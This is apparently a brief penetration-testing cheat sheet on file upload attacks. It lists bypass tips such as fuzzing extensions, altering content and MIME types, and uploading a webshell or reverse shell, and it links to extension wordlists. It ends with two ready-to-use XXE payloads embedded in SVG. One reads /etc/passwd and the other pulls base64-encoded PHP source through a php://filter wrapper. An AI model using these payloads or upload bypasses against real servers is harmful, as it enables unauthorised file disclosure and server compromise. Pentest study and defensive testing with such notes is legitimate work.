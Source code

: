 ```yaml
---
title: File upload attacks
---
```


# File upload attacks

## Tips
- Fuzz file extensions for whitelisted and blacklisted, try uncommon extensions
- Change content type when uploading
- Change MIME type when uploading
- Upload webshell or reverse shell

## Extension wordlists
- [web extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- [php extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

## XXE with SVG
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```